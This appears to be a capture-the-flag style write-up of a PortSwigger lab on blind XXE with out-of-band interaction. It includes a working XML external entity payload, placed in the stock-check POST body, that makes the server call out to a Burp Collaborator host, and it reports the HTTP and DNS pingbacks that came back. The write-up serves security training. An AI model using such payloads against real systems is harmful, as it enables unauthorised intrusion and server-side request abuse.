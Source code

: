 ```yaml
---
author: Nithissh S
pubDatetime: 2024-11-23T15:22:00Z
modDatetime: 2024-11-23T09:12:47.400Z
title: Blind XXE with out-of-band interaction
slug: xxe-portswigger-lab-5
featured: false
draft: false
tags:
  - BSCP
  - XXE
description:
  This lab has a "Check stock" feature that parses XML input but does not display the result. You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain. To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.
---
```


## Objective 

This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator. 

## Solution 

Just like the previous XXE labs, we have a functionality to check for stocks on the particular products 

![](../../assets/images/bscp/xxe/xxe-15.png)

But this lab is little bit different from the others where in the last few labs, where we did pass the payload and based on error response.. we will look into it to triage it

Now in this attack technique is little bit different, we can utilise a technique called `Out of Band` technique 

This type of XXE attack causes the server to make a back-end HTTP request to the specified URL. The attacker can monitor for the resulting DNS lookup and HTTP request, and thereby detect that the XXE attack was successful.

With the following payload, placed in the `POST` body request where it will trigger in pingback through collaborator

```xml
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://burpcollaborator.net"> ]> 
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

Once after request is successfully passed, we can see that I've recieved two different pingbacks one is `HTTP` and `DNS`

![](../../assets/images/bscp/xxe/xxe-16.png)

Since we recieved a pingback and that solves the lab 

![](../../assets/images/bscp/xxe/xxe-17.png)